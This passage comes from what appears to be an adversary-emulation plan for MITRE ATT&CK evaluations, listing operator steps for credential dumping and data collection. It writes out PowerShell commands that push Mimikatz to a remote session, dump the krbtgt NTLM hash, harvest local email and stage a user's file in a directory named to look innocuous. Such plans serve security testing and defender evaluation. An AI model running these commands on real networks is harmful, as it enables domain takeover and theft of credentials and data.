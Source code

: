 **Note:** If you get an error here, reboot domain controller, then re-run the 2 winrm setup commands before re-executing 16.C

##### 16.D - OS Credential Dumping ([T1003](https://attack.mitre.org/versions/v6/techniques/T1003/) / [T1003.001](https://attack.mitre.org/techniques/T1003/001))

1. Execute `Copy-Item m.exe -Destination "C:\Windows\System32\" -ToSession $[session_id]`
    * `m.exe` is a copy of the Mimikatz executable (available at <https://github.com/gentilkiwi/mimikatz>)
2. Execute `Invoke-Command -Session $[session_id] -scriptblock {C:\Windows\System32\m.exe privilege::debug "lsadump::lsa /inject /name:krbtgt" exit} | out-string`
3. Take note of value for the NTLM hash (ex: `NTLM : f4a688010d80770a55a22893dc6ac510`) near the top (Under RID and User after `* Primary`)
4. Execute `Get-PSSession | Remove-PSSession`

#### Cited Intelligence

* Open Invitation Contributors: Microsoft, SentinelOne

* PowerDuke can get the current user’s SID via select Windows API calls.<sup> [11](https://www.volexity.com/blog/2016/11/09/powerduke-post-election-spear-phishing-campaigns-targeting-think-tanks-and-ngos/) </sup>

---

### Step 17 - Collection

The attacker harvests emails stored in the local email client ([T1114](https://attack.mitre.org/versions/v6/techniques/T1114/) / [T1114.001](https://attack.mitre.org/techniques/T1114/001/)) before collecting ([T1005](https://attack.mitre.org/techniques/T1005/)) and staging ([T1074](https://attack.mitre.org/versions/v6/techniques/T1074/) / [T1074.001](https://attack.mitre.org/techniques/T1074/001/)) a file of interest. The staged file is compressed ([T1002](https://attack.mitre.org/versions/v6/techniques/T1002/) / [T1560.001](https://attack.mitre.org/techniques/T1560/001)) as well as prepended with the magic bytes of the GIF file type ([T1027](https://attack.mitre.org/techniques/T1027/)).

#### Procedures

##### 17.A - Email Collection: Local Email Collection ([T1114](https://attack.mitre.org/versions/v6/techniques/T1114/) / [T1114.001](https://attack.mitre.org/techniques/T1114/001/))

1. Interact with low integrity callback
2. Load `stepSeventeen_email.ps1`
3. Execute `psemail`

##### 17.B - Data from Local System ([T1005](https://attack.mitre.org/techniques/T1005/))

1. Interact with high integrity callback
2. Execute `New-Item -Path "C:\Windows\Temp\" -Name "WindowsParentalControlMigration" -ItemType "directory"`
3. Execute `Copy-Item "C:\Users\oscar\Documents\MITRE-ATTACK-EVALS.HTML" -Destination "C:\Windows\Temp\WindowsParentalControlMigration"`
